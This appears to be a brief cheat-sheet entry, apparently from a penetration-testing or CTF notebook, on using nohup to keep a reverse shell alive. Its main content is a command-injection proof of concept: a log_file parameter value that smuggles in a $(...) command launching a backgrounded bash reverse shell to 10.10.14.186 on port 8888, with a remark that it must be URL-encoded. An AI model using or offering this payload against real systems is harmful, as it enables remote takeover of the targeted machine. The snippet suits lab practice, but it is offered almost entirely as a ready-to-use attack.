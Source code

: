 # NoHup

nohup can be utilized, when the shell get's exited/killed always.

An potential PoC for Command Injection within an network package, could look like this:

Note: That the shell, needs to be url encoded.

```
log_file=/var/log/auth.log$(/bin/bash -c 'nohup bash -i >& /dev/tcp/10.10.14.186/8888 0>&1 &')&analyze_log=
```
